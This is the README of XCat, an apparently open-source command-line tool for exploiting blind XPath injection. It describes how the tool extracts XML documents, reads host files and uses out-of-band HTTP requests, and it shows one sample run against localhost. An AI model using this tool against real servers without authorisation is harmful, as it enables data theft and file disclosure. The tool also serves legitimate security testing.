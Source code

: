 About XCat
==========

XCat is a command line program that aides in the exploitation of blind XPath injection vulnerabilities. It can be used
to retrieve the whole XML document being processed by a vulnerable XPath query, read arbitrary files on the hosts filesystem
and utilize out of bound HTTP requests to make the server send data directly to xcat.

XCat is built to exploit boolean XPath injections (Where only one bit of data can be extracted in one request)
and it requires you to manually identify the exploit first, this does not do that for you. Check out the docs 
at http://xcat.readthedocs.org/ for more info.


An example::

    >> xcat --public-ip="localhost" http://localhost:80 title=Bible title "Book found" run retrieve
    Injecting using SingleQuoteString
    Detecting features...
    Supported features: XPath 2, String to codepoints, External DOC function, Entity injection, Substring search speedup
    Retrieving /*[1]
    <?xml version="1.0" encoding="utf-8"?>
    <lib test="1" attribute1="3">
        <book>
                <!-- Comment -->
                <title>Bible</title>
                <description another="attribute">The holy book</description>
    ...

